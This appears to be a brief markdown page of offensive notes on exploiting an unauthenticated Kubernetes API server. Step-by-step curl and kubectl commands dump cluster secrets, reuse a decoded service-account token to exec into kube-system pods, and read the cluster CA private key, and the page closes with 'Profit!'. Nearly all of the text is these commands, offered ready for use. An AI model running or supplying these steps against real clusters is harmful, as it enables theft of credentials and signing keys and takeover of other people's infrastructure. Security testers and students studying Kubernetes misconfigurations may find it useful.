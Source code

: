 ## Unauthenticated API Server


1. A couple of ways to exploit this, the easiest would be to use kubectl but we can also use curl.
2. using curl
 - Dump out secrets using `curl https://[IP]:6443/api/v1/secrets 
 - Find the token for a service account which can exec inside pods (clusterrole-aggregation-controller is the best target)
 - Base64 decode the token
 - kubectl --insecure-skip-tls-verify -shttps://[IP]:6443/ --token="[DECODED_TOKEN]" get po -n kube-system
 - kubectl --insecure-skip-tls-verify -shttps://[IP]:6443/ --token="[DECODED_TOKEN]" -n kube-system exec [API_SERVER_PORT] cat /etc/kubernetes/pki/ca.key
 - Profit! 
3. Another Options is to use kubectl
 - kubectl --insecure-skip-tls-verify --username=system:unauthenticated -shttps://[IP]:6443 get po -n kube-system
 - kubectl --insecure-skip-tls-verify --username=system:unauthenticated -shttps://[IP]:6443 -n kube-system exec [APISERVERPOD] cat /etc/kubernetes/pki/ca.key